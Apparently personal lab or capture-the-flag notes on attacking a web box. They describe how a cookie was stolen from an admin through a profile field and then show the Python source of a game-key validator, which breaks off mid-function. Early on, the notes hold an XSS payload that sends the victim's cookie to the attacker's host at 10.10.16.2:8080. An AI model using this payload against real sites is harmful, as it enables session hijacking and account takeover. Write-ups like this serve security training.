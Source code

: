 ![[Pasted image 20250423185523.png]]
checking ssl certificate with openssl we've achieved nothing.

register on the website of [[port 80]] we can see on profile settings can change our user. so, and after sends a email to `admin` and steal your cookie.

```html
<script>document.location="http://10.10.16.2:8080?cookie=" + document.cookie
```
[[cookie hijaking]]

being an administrator we find new options available on the website.
![[Pasted image 20250423204244.png]]
one is download offline key-validator that have this [[Python]] code
```python
#!/usr/bin/env python3
import sys
from re import match

class Key:
    key = ""
    magic_value = "XP" # Static (same on API)
    magic_num = 346 # TODO: Sync with API (api generates magic_num every 30min)

    def __init__(self, key:str, magic_num:int=346):
        self.key = key
        if magic_num != 0:
            self.magic_num = magic_num

    @staticmethod
    def info() -> str:
        return f"""
        # Game-Key validator #

        Can be used to quickly verify a user's game key, when the API is down (again).

        Keys look like the following:
        AAAAA-BBBBB-CCCC1-DDDDD-1234

        Usage: {sys.argv[0]} <game-key>"""

    def valid_format(self) -> bool:
        return bool(match(r"^[A-Z0-9]{5}(-[A-Z0-9]{5})(-[A-Z]{4}[0-9])(-[A-Z0-9]{5})(-[0-9]{1,5})$", self.key))

    def calc_cs(self) -> int:
        gs = self.key.split('-')[:-1]
        return sum([sum(bytearray(g.encode())) for g in gs])

    def g1_valid(self) -> bool:
        g1 = self.key.split('-')[0]
        r = [(ord(v)<<i+1)%256^ord(v) for i, v in enumerate(g1[0:3])]
        if r != [221, 81, 145]:
            return False
        for v in g1[3:]:
            try:
                int(v)
            except:
                return False
        return len(set(g1)) == len(g1)

    def g2_valid(self) -> bool:
        g2 = self.key.split('-')[1]
        p1 = g2[::2]
```